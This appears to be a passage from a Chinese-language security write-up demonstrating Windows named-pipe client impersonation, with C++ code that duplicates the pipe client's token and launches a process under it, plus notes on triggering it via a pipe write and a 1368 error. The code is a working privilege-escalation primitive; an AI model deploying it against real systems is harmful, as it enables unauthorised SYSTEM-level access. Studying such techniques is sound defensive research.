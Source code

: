 ```bash
    if (ImpersonateNamedPipeClient(NamedPipehandle) == false) {
        cout << "ImpersonateNamedPipeClient " << GetLastError() << endl;
        getchar();
    }

    HANDLE hToken;
    if (OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken) == false)
    {
        cout << "OpenThreadToken " << GetLastError() << endl;
        getchar();
    }
    HANDLE hSystemTokenDup = INVALID_HANDLE_VALUE;

    if (DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hSystemTokenDup) == false) {
        cout << "DuplicateTokenEx " << GetLastError() << endl;
        getchar();
    }

    PROCESS_INFORMATION pi = { 0 };
    STARTUPINFO si = { 0 };
    si.cb = sizeof(STARTUPINFO);

    if (CreateProcessWithTokenW(hSystemTokenDup, LOGON_WITH_PROFILE, NULL, cmd, 0x00000400, NULL, NULL, &si, &pi) == false) {
        cout << "CreateProcessWithTokenW " << GetLastError() << endl;
        getchar();
    }
    cin.get();
    return 0;
}
```

我在具备 system 的权限上 cmd 输入了`echo 1 > \\localhost\pipe\endlessparadox`把输入写入命名管道，之后服务端将拉起一个新的具备客户端的权限，值得注意的是 localhost 是固定的写法，如何写成`\\.\`这导致模拟失败，windows error code 显示 1368，这代表在从该管道读取数据之前，无法使用命名管道进行模拟，下面是正常效果：

[![](assets/1705982113-5f1e6935de0cf15b5c20b31b6c3ab51f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120230124-c74d1188-b7a4-1.png)
